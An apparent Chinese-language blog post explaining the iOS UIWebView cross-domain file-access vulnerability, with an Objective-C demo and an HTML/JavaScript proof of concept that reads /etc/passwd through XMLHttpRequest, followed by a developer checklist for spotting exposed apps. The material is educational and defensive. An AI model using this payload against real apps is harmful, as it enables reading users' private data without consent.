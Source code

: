 ## 谈一谈iOS平台跨域访问漏洞

**作者**: [Lefe_x](https://weibo.com/u/5953150140)

最近很多关于 `iOS Webview` 漏洞的话题，利用这个机会，我也来说说对这个漏洞的理解，如果有理解不对的地方，欢迎指出，同时感谢 `@折腾范儿_味精` 的指点。

`iOS` 平台跨域访问漏洞成因是由于 `UIWebView` 默认开启了`WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 选项。这样黑客利用这个漏洞给某个 `App` 下发一个 `HTML` 文件，当 `UIWebView` 使用 `file` 协议打开这个 `HTML` 文件，而 `HTML` 文件中含有一段窃取用户数据的 `JS` 代码，这样就导致用户数据泄露的可能。为了演示这个漏洞，我特意写了一个 `Demo`，截图是运行结果。

```objc
NSString *filePath = [[NSBundle mainBundle] pathForResource:@"index" ofType:@"html"];
_webView = [[UIWebView alloc] initWithFrame:self.view.bounds];
[_webView loadRequest:[NSURLRequest requestWithURL:[NSURL fileURLWithPath:filePath]]];
```

```html
<!DOCTYPE html>
<html>
    <body>
        <script>
            // 这个可以是手机任意一个文件地址
            var localfile = "/etc/passwd"
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (xhr.readyState == 4) {
                    alert(xhr.responseText);
                }
            }
           try {
              xhr.open("GET", localfile, true);
              xhr.send();
           } catch (ex) {
              alert(ex.message);
           }
        </script>
    </body>
</html>
```

![](1.jpg)

运行上面的代码，会读取出手机端 `/etc/passwd` 的文件。这样的话，我们可以利用这个漏洞访问其他应用的数据，而不必需要用户的许可。而 `WKWiebView` 的 `WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 默认是关闭的，不会存在这样的风险。

那么如何觉得自己的 `App` 是否是安全的呢？看看有没有满足下面几点：

1. `App` 中是否含有远程下发的 `html` 供 `APP` 加载，而中途会被别人篡改；
2. 加载 `HTML` 文件是通过 `file` 协议加载的；
3. 使用的是否为 `UIWebView`；
4. 使用 `WKWiebView` 是否有主动开启 `WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 这两个属性。

